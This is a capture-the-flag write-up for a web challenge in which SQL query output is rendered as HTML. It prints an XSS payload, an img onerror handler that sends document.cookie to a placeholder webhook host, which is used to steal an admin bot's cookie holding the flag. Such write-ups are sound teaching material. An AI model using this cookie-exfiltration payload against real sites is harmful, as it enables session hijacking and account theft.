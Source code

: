 # Query Service

Challenge Description:

> I've made a little website to access a SQL database. I even added a way to share your queries with other people! Just copy the link.

> Hint1: The contents of the database will give you some info on what to do next.

> Hint2: You can only change the query; can you inject arbitrary HTML with it?

## Analyzing the website

We are given a query input field where we can input sql statements.We can `sqlite_master` table to get the structure of the database and the tables.  

![sql schema](schema.PNG)

We see a notes table and we try seeing the contents of it as well.  

![notes table](notes.PNG)  

It gives us a link to a admin bot which has the flag as the cookie and this seems like a XSS challenge now.  

We can inject html into the field using the below command  

Command --> `select "<img src=x onerror=this.src='https://webhook_url/?cookie='+document.cookie;>"`

Giving the link of the submitted page to the admin bot gives us requests in the webhook page which we have opened.

![admin bot](admin_bot.PNG)

We get the flag the cookie section in the webhook request.  

![flag_output](flag.PNG)
